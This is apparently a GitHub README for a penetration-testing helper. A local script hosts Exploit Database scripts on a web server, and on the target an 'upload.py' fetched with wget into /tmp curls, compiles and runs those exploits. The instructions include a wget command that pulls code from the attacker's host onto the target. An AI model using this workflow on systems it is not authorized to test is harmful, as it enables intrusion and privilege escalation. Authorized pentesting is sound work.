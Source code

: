 # Exploit Database Upload
The purpose of this is to make the process of uploading exploit database scripts to a target machine. The local script will make 
the webserver and the upload files will curl and compile/run the files (written to /tmp).

## Purpose and usage
This is built to work in a pentest of most unix devices. The host system I use is kali linux, but any machine with SimpleHTTPServer 
(python) installed should work. The upload file pulls from a server running this way, so modification will have to happen (port) to 
get it working its best.

## Instructions

**Local**

Run the local file
```
bash local.sh
```
**Remote**

Upload the 'upload' file to /tmp. I'll give the example of using a webserver
```
wget *ip*:*port*/*file* > /tmp/upload.py
```
Example
```
wget 192.168.1.6:8000/upload.py > /tmp/upload.py
```
The upload.py file will already be hosted on the server to start with, so this method should be simple.
The rest of the program should be fairly simple to use after running
```
cd /tmp
python3 upload.py
```
The program may work in python 2, but the functionality is not as good as I would like it to be. Please use python 3.
